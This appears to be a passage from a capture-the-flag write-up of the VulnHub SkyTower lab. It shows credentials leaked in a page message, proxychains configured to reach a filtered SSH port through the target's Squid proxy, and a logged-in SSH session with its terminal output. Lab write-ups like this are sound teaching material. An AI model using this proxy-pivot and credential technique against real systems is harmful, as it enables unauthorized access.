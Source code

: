 ```

Welcome john@skytech.com

As you may know, SkyTech has ceased all international operations.

To all our long term employees, we wish to convey our thanks for your dedication and hard work.

Unfortunately, all international contracts, including yours have been terminated.

The remainder of your contract and retirement fund, $2 ,has been payed out in full to a secure account. For security reasons, you must login to the SkyTech server via SSH to access the account details.

Username: john
Password: hereisjohn

We wish you the best of luck in your future endeavors.
```

- now i have the domain name from the email
> we can try authentication
{: .prompt-tip }

![3-s2 0-B9780128199046000207-f20-07-9780128199046](https://github.com/user-attachments/assets/59cd3ef5-1ccc-4b56-944d-ca981bfd3bfd)


## Initial access
- icant see port 22 is closed but you can see port with the proxy, i think this one i tried to use proxychains to access.

```
I uncommented 

>>> dynamic_chain

after the uncommented i added, at the button and i commneted the socksproxyto no confusion on proxy proxylists.

>>> http 192.168.56.101 3128

```

![Screenshot From 2025-03-29 04-27-50](https://github.com/user-attachments/assets/17b2be6a-252d-4614-a293-6032880cba34)


## Login using ssh
```
                                                                                   
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -tt -oHostKeyAlgorithms=+ssh-rsa john@192.168.56.101

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```